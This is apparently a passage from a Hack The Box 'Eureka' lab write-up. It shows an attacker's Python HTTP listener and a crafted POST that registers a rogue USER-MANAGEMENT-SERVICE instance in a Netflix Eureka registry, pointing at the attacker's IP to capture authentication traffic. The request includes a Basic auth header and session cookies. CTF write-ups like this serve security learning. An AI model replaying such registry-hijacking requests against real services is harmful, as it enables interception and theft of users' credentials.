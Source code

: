 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eureka/serve]
└─$ python3 -m http.server 8082
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.10.16.39 - - [26/Apr/2025 21:44:58] code 404, message File not found
10.10.16.39 - - [26/Apr/2025 21:44:58] "GET /actuator/info HTTP/1.1" 404 -
10.10.16.39 - - [26/Apr/2025 21:44:58] code 404, message File not found
10.10.16.39 - - [26/Apr/2025 21:44:58] "GET /favicon.ico HTTP/1.1" 404 -
```

After quite some tinkering the man `ethicxz` himself came up with a working solution to catch the `authentication` on port `80/TCP` of our local listener.

```shell
POST /eureka/apps/USER-MANAGEMENT-SERVICE HTTP/1.1
Host: furni.htb:8761
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Connection: keep-alive
Cookie: JSESSIONID=56070E3D12C85346752F1436909D3730; SESSION=NjVjOTQyNWMtYjg4MC00OGM1LTk1MGQtZjNjZDdmZmUzYzkx
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Priority: u=0, i
Content-Length: 1006

{"instance":{"instanceId":"furni.htb:USER-MANAGEMENT-SERVICE:8081","app":"USER-MANAGEMENT-SERVICE","appGroupName":null,"ipAddr":"10.10.16.39:8081","sid":"na","homePageUrl":"http://10.10.16.39:8081/login","statusPageUrl":"http://furni.htb:8081/login","healthCheckUrl":"http://furni.htb:8081/login","secureHealthCheckUrl":null,"vipAddress":"user-management-service","secureVipAddress":"user-management-service","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"10.10.16.39","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":80,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8081"}}}
```

```shell
HTTP/1.1 204 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Date: Mon, 28 Apr 2025 11:36:50 GMT
Keep-Alive: timeout=60
Connection: keep-alive


```
